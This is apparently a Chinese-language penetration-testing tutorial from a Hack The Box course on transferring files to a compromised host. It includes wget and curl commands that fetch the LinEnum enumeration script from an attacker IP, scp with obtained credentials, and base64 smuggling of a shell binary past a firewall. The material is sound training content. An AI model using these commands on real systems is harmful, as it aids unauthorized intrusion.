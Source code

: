 ```yaml
---
title: 文件传输
---
```

# 文件传输

---

在任何渗透测试过程中，我们很可能需要将文件传输到远程服务器，例如枚举脚本或利用工具，或将数据传输回我们的攻击主机。虽然像Metasploit与Meterpreter shell这样的工具允许我们使用 `Upload` 命令上传文件，但我们需要学习使用标准反向 shell 进行文件传输的方法。

---

## 使用 wget

有许多方法可以实现这一点。其中一种方法是在我们的机器上运行一个 [Python HTTP 服务器](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server)，然后使用 `wget` 或 `cURL` 在远程主机上下载文件。首先，我们进入包含需要传输的文件的目录，并在其中运行一个 Python HTTP 服务器：

```Plaintext
jw0610a@htb[/htb]$ cd /tmp
jw0610a@htb[/htb]$ python3 -m http.server 8000

正在监听 0.0.0.0 的端口 8000 (http://0.0.0.0:8000/) ...
```

现在我们在我们的机器上设置了一个监听服务器，我们可以在具有代码执行权限的远程主机上下载文件：

```Plaintext
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
正在保存至: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 已保存 'linenum.sh' [14337/14337]
```

请注意，我们使用了我们的 IP 地址 `10.10.14.1` 和我们的 Python 服务器运行的端口 `8000`。如果远程服务器没有安装 `wget`，我们可以使用 `cURL` 来下载文件：

```Plaintext
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

请注意，我们使用了 `-o` 标志来指定输出文件名。

---

## 使用 SCP

另一种传输文件的方法是使用 `scp`，前提是我们已经在远程主机上获得了 SSH 用户凭据。我们可以按如下方式执行：

```Plaintext
jw0610a@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

请注意，在 `scp` 后面指定了本地文件名，并且在 `:` 后面指定了远程目录。

---

## 使用 Base64

在某些情况下，我们可能无法传输文件。例如，远程主机可能有防火

墙保护，阻止我们从我们的机器上下载文件。在这种情况下，我们可以使用一个简单的技巧，将文件以 [base64](https://linux.die.net/man/1/base64) 格式进行编码，然后将 `base64` 字符串粘贴到远程服务器上进行解码。例如，如果我们想要传输一个名为 `shell` 的二进制文件，我们可以按以下方式对其进行 `base64` 编码：

```Plaintext
jw0610a@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

现在，我们可以复制这个 `base64` 字符串，进入远程主机，并使用 `base64 -d` 进行解码，然后将输出导入到一个文件中：

```Plaintext
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

## 验证文件传输

为了验证文件的格式，我们可以对其运行 [file](https://linux.die.net/man/1/file) 命令：

```Plaintext
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

正如我们所看到的，当我们在 `shell` 文件上运行 `file` 命令时，它显示它是一个 ELF 二进制文件，这意味着我们成功地传输了它。为了确保我们在编码/解码过程中没有损坏文件，我们可以检查其 MD5 哈希值。在我们的机器上，我们可以对其运行 `md5sum`：

```Plaintext
jw0610a@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

现在，我们可以转到远程服务器并对我们传输的文件运行相同的命令：

```Plaintext
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

正如我们所看到的，两个文件具有相同的 MD5 哈希值，这意味着文件已正确传输。还有其他各种传输文件的方法。您可以查看 [File Transfers](https://academy.hackthebox.com/module/details/24) 模块，以获取更详细的文件传输学习。
